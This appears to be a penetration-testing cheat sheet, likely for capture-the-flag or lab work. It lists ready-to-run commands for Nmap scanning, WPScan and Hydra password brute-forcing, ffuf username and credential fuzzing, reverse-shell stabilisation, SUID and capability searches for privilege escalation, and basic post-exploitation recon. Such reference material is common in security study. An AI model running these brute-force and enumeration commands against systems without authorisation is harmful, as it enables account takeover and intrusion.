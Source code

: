 ### Nmap 
```
sudo nmap -sS -sV -n -vv -Pn -p- $IP
```

```
sudo nmap --script [paket]-* $IP
```

```
sudo nmap -p- --min-rate 1000 $IP
```

### WPScan

```
wpscan --url [url] -e u
```

```
 wpscan --url [url] -U [user] -P /usr/share/wordlists/rockyou.txt --password-attack wp-login -t 100
```

### FFUF
```
ffuf -w /usr/share/seclists/Discovery/DNS/namelist.txt -H 'Host: FUZZ.[url]' -u [url] -fs 2395
```

```
ffuf -w /usr/share/seclists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u [url] -mr "[message from login form]"
```

```
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u [url] -fc 200
```

### Shell Stab
```
python3 -c 'import pty; pty.spawn("/bin/sh")'
python3 -c 'import pty; pty.spawn("/bin/bash")'

python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm

CTRL-z
stty raw -echo;fg
stty rows 55 columns 116
```

```
Without Python
usr/bin/script -qc /bin/bash /dev/null
```

### Hydra
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt [ip] http-post-form "/admin/:user=^USER^&pass=^PASS^&LOGIN=Login:Username or password invalid"
```

```
hydra -l [user] -P [wordlist] [ip] [attack port/service]
```

### Capabilities 
```
getcap -r / 2>/dev/null
```

### Find Suid
```
find / -type f -perm -4000 2>/dev/null
```

```
find / -type f -user [user] -name "*file*" 2>/dev/null
```

```
find / -uid 0 -perm -4000 -type f 2>/dev/null
```
### Command Examples
Commands to try

Linux

    - whoami
    - id
    - ifconfig/ip addr
    - uname -a
    - ps -ef
    
Windows

    - whoami
    - ver
    - ipconfig
    - tasklist
    - netstat -an
